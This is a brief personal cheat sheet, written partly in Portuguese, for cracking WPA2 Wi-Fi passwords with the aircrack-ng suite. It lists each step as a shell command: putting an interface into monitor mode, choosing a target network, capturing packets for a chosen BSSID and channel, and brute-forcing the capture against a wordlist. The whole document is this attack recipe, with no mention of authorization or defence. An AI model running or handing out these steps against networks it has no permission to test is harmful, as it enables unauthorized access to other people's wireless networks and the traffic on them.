 # Cracking WPA2

This is a simple file for remind me some wpa2 cracking instructions.

### Ligar monitoramento
	sudo airmon-ng start <interface>

### Selecionar um alvo
	sudo airodump-ng <monitor>

### Pegar pacotes
	sudo airodump-ng <monitor> -c <channel> --bssid <bssid> -w <filename>

### Bruteforce nos pacotes capturados
	aircrack -w <wordlist> -b <BSSID> <.CAP>
